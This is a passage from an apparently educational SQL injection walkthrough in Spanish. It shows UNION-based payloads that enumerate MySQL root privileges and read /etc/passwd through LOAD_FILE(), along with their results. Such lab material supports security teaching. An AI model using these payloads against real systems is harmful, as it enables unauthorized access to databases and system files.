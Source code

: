 **Resultado**:

```
...
Y	3	4	5
```

El usuario `root` posee `SUPER_PRIV` = **Y**.

**Explicación**: Saber si `root` tiene privilegio `SUPER` indica la posibilidad de operaciones avanzadas, como `INTO OUTFILE`.

---

## Paso 5: Enumerar privilegios completos de `root@localhost`

**Query**:

```sql
' UNION SELECT 1, grantee, privilege_type, 4, 5
  FROM information_schema.user_privileges
  WHERE grantee="'root'@'localhost'"-- -
```

**Resultado**:

```
'root'@'localhost'	SELECT	4	5
...
'root'@'localhost'	FILE	4	5
...
'root'@'localhost'	TRIGGER	4	5
...
```

El privilegio `FILE` indica que es posible leer archivos con `LOAD_FILE()`.

**Explicación**: Enumerar privilegios muestra la capacidad de lectura de archivos del sistema, esencial para extracción de archivos sensibles.

---

## Paso 6: Leer `/etc/passwd`

**Query**:

```sql
' UNION SELECT 1, LOAD_FILE('/etc/passwd'), 3, 4, 5-- -
```

**Resultado**:

```
...
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
...
mysql:x:102:104:MySQL Server,,,:/nonexistent:/bin/false	3	4	5
```
